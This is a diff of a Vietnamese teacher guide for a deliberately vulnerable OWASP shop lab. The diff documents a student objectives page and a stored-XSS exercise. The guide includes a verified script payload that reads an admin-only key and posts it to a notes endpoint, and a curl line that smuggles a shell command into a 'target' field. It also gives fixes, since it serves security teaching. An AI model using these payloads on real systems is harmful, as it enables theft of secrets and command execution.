

Before and after one commit to dotlinux26/vulnlab, a Markdown page: lessons-content/17-owasp-shop/teacher-guide.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Docs: clarify C14 flow (payload in reviews, bot only visits /admin/reviews, /notes is exfil channel), document /objectives page + smoke test

````diff
--- a/lessons-content/17-owasp-shop/teacher-guide.md
+++ b/lessons-content/17-owasp-shop/teacher-guide.md
@@ -14,6 +14,8 @@
 | MySQL | products / reviews / **shopusers** mirror MD5 (internal) |
 | flag-service | Go :8080 internal — /health /info /metrics **/flag** |
 | xss-bot | Playwright, login admin, visit `/admin/reviews` mỗi 30s |
+
+**Trang `/objectives` (student-facing):** danh sách 16 mục tiêu viết trung tính (chỉ mô tả kết quả, không nói kỹ thuật) + form nộp evidence token. Nộp đúng `FLAG{cN}` → hiện card "✓ OBJECTIVE COMPLETED" với checklist "You demonstrated..." + tên kỹ thuật + gợi ý bước tiếp theo ghi journal. Song ngữ theo cookie `lang` (mặc định vi). Chỉ validate, không lưu trạng thái — học viên tự tích bảng checklist in từ bài học.
 
 | Email | Password | Role | Ghi chú |
 |-------|----------|------|---------|
@@ -204,13 +206,25 @@ curl -H "Cookie: <admin-token>" --data-urlencode 'target=x; cat /opt/scripts/net
 
 **Stored XSS (C14)**
 - *Bản chất:* review lưu DB nguyên văn, render raw ở `/product/:id` VÀ `/admin/reviews` — trang mà **xss-bot (admin giả lập)** visit mỗi 30s. Nạn nhân là admin, không phải bạn.
+- *Sơ đồ flow (đọc kỹ để khỏi nhầm vai trò từng thành phần):*
+  ```
+  Học viên trồng <script> vào REVIEW SẢN PHẨM (/product/<id>/review)
+        ↓ lưu RAW vào MySQL (không sanitize)
+  BOT ADMIN (duy nhất 1 bot) login + vào /admin/reviews mỗi 30s để "kiểm duyệt"
+        ↓ script CHẠY TRONG BROWSER CỦA ADMIN — attacker ≠ victim
+  Script đọc moderation key FLAG{c14} ngay trên trang (chỉ admin thấy)
+        ↓ POST /api/notes
+  GÓP Ý (/notes) = KÊNH NHẬN EXFIL — công khai, KHÔNG có bot ghé,
+  học viên tự mở ra đọc "đồ cướp". (/notes cũng là stored-XSS sink
+  nhìn thấy bởi mọi người — xem mục 4b số 3 về instance dùng chung.)
+  ```
 - *Phát hiện:* form review không sanitize (thử `<b>test</b>` in đậm thật); missions hint nhắc bot đọc review định kỳ.
 - *Payload đã verify (exfil moderation key về /notes):*
   ```html
   <script>fetch("/api/notes",{method:"POST",headers:{"Content-Type":"application/json"},
   body:JSON.stringify({text:"EXFIL:"+document.body.innerText.match(/FLAG\{[^}]+\}/)[0]})})</script>
   ```
-  → chờ ≤35s bot visit → `/notes` hiện `EXFIL:FLAG{c14}`. (Đã verify bot chạy 3 vòng exfil 3 lần.)
+  → chờ tối đa ~40s (chu kỳ bot 30s + 8s giữ trang) → `/notes` hiện `EXFIL:FLAG{c14}`. Lưu ý field API là `text` (không phải `content`) — lỗi phổ biến khi test tay. Smoke test tự động hóa chuỗi này (`WITH_BOT=1 ./smoke-test.sh`, chờ 55s).
 - *Fix đúng:* escape khi render, sanitize-html khi lưu, CSP `script-src 'self'`, cookie admin `httpOnly` (đã có) + SameSite.
 
 **CSRF (C16)**
````
Also changed, not shown: 1 other file.
